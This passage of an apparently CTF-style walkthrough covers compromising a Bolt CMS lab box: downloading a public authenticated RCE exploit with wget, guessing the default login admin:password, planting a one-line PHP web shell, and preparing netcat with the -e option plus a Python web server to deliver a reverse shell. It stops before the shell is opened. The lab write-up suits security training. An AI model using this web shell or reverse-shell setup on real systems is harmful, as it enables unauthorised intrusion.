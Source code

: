 Download [exploit](https://github.com/r3m0t3nu11/Boltcms-Auth-rce-py) for this app. The exploit works, but might not fire every time. If you first don't succeed... 


## #4.1 - In the exploit from 2020-04-05, what language is used to write the exploit?

Let's download the exploit, which is written in python:

~~~
wget https://raw.githubusercontent.com/r3m0t3nu11/Boltcms-Auth-rce-py/master/exploit.py
~~~

Answer: `python`

## #4.2

**As the exploit is authenticated, you will also need a username and password. Knowing the URI for the login-portal is also critical for the exploit to work. Find the login-portal and try login in.**

*Hint: `admin:password`*

Visit the Bolt online [user manual](https://docs.bolt.cm/3.7/manual/login) to check the section about login. We are told that the login page can be found under the `/bolt` directory.

There is no indication about default credentials. Let's take the assumption that there is an `admin` account, and we will start with some basic passwords (`admin`, `password`, ...). It worked with `admin:password`.

# [Task 5] Reverse shell

`python3 exploit.py http://ip username password`

We can create a simple php-shell on the server, like this:

~~~
$ echo '<?php system($_GET["c"]);?>' > c.php
~~~

This we can use to upload a netcat reverse shell on the system and get a reverse shell, as there is no netcat on the box.

If you are using Kali Linux, the netcat installed supports the `-e` parameter (execute). Using this parameter we can start a shell upon connecting. 

The `-e` parameter is often removed from netcat in a lot of the Linux distributions, because it can be exploited to gain a shell. :-)

First we link the installed netcat to the current directory on our attacking machine:

~~~
ln -s $(which nc) .
~~~

Then we start a simple web server to serve some files, make sure the files you want to serve are in the current directory:

This will listen on port 8000 on you local machine: `python3 -m http.server 8000`
